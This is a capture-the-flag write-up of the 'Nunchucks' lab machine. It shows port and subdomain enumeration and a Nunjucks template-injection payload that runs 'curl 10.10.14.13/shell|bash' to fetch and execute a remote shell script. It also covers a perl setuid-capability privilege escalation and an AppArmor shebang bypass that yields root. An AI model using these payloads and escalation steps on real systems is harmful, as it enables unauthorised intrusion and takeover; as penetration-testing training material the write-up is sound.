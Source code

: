 # Nunchucks

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.95.252
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-10 04:51 EDT
Nmap scan report for 10.129.95.252
Host is up (0.016s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https
```

We have to add `nunchucks.htb` to our `/etc/hosts` file to access port 80.

### Web Enum

Port 80 reveals an ecommerce platform.

<figure><img src="../../../.gitbook/assets/image (676).png" alt=""><figcaption></figcaption></figure>

Registering is closed:

<figure><img src="../../../.gitbook/assets/image (668).png" alt=""><figcaption></figcaption></figure>

There wasn't much on the website and it looks rather static, so we can do some subdomain and directory fuzzing. Using `wfuzz`, I found out there was a `store` subdomain.

```
$ wfuzz -c -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -H 'Host:FUZZ.nunchucks.htb' --hw=2271 https://nunchucks.htb
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: https://nunchucks.htb/
Total requests: 100000

=====================================================================
ID           Response   Lines    Word       Chars       Payload                     
=====================================================================

000000037:   200        101 L    259 W      4028 Ch     "store"
```

### Email SSTI --> Shell

This was another store:

<figure><img src="../../../.gitbook/assets/image (37).png" alt=""><figcaption></figcaption></figure>

When we submit an email, it would print it back on the screen.

<figure><img src="../../../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>

The box name was a hint that it was using NUNJUCKS, so we can try some SSTI here. We can verify it works by using `{{7*7}}` as part of the email:

<figure><img src="../../../.gitbook/assets/image (660).png" alt=""><figcaption></figcaption></figure>

Using this, we can start to gain a reverse shell using SSTI for RCE. If we analyse the HTTP traffic, we can see that the emails are being sent to `/api/submit` and processed.&#x20;

<figure><img src="../../../.gitbook/assets/image (41).png" alt=""><figcaption></figcaption></figure>

Using this, we can start to generate a payload:

{% code overflow="wrap" %}
```javascript
{{range.constructor("return global.process.mainModule.require('child_process').execSync('curl 10.10.14.13/shell|bash')")()}}
```
{% endcode %}

Here's the final request I used to get a shell:

{% code overflow="wrap" %}
```http
POST /api/submit HTTP/1.1
Host: store.nunchucks.htb
Cookie: _csrf=sS5N1jkHeT3qF-BegglaZv_v
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://store.nunchucks.htb/
Content-Type: application/json
Origin: https://store.nunchucks.htb
Content-Length: 141
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close



{
    "email":"{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('curl 10.10.14.13/shell.sh|bash')\")()}}"
}
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (673).png" alt=""><figcaption></figcaption></figure>

Grab the user flag.

## Privilege Escalation

### Perl Capabilities

Within the `/opt` directory, there's a few files:

```
david@nunchucks:/opt$ ls -la
total 16
drwxr-xr-x  3 root root 4096 Oct 28  2021 .
drwxr-xr-x 19 root root 4096 Oct 28  2021 ..
-rwxr-xr-x  1 root root  838 Sep  1  2021 backup.pl
drwxr-xr-x  2 root root 4096 Oct 28  2021 web_backups
```

The first few lines of `backup.pl` stand out to me:

```perl
david@nunchucks:/opt$ cat backup.pl 
#!/usr/bin/perl
use strict;
use POSIX qw(strftime);
use DBI;
use POSIX qw(setuid); 
POSIX::setuid(0);
```

It seems that the perl script is able to run `setuid(0)`. This means that it's probably being run as `root` or it just has the capability to do so. We can enumerate this using `getcap`:

```
david@nunchucks:/opt$ getcap /usr/bin/perl
/usr/bin/perl = cap_setuid+ep
```

This confirms that we can just run this command torun commands and spawn a `root` shell:

```
david@nunchucks:/opt$ /usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "whoami";'
root
david@nunchucks:/opt$ /usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
david@nunchucks:/opt$
```

Interestingly, it does not let us spawn a shell. There's an application that is blocking us.&#x20;

### AppArmor Bypass --> Shell

While reading about security programs in Linux, I ran the `aa-status` command and confirmed that AppArmor is running:

```
david@nunchucks:/opt$ aa-status
apparmor module is loaded.
You do not have enough privilege to read the profile set.
```

This program is a kernel enhancement to confine programs to a limited set of resources, thus explaining why `perl` can only run simple commands and we can't spawn shells. There are bugs on Hacktricks that explain how to bypass these using a shebang.

{% embed url="https://bugs.launchpad.net/apparmor/+bug/1911431" %}

We just have to run these:

```bash
echo '#!/usr/bin/perl
use POSIX qw(strftime);
use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/sh"' > /tmp/test.pl
chmod +x /tmp/test.pl
/tmp/test.pl
```

<figure><img src="../../../.gitbook/assets/image (29) (8).png" alt=""><figcaption></figcaption></figure>
